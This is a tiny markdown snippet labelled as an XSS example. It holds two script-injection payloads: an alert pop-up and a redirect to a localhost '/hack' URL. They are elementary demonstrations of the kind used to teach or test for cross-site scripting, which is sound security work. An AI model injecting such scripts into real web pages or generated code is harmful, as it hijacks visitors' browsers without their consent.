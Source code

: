 # XSS Example

```
<script>alert('Hello, World!')</script>
```

```
<script>window.location.href="http://localhost:8080/hack"</script>
```
